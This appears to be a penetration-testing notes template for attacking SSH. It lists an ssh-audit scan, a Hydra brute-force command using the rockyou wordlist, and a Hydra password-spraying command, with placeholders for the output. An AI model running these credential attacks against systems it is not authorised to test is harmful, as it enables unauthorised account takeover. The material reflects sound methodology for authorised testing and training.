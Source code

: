 # ssh-audit
ssh-audit.py $IP_ADDRESS
```
<insert ssh-audit output here>
```
# Hydra (Brute Force SSH Login)
```bash
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ssh://$IP_ADDRESS:$PORT -t 4 -V
```
```
<insert hydra output here>
```
# Password Spraying (if there’s a known password)
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "$PASSWORD" ssh://$IP_ADDRESS
```
```
<insert hydra output here>
```
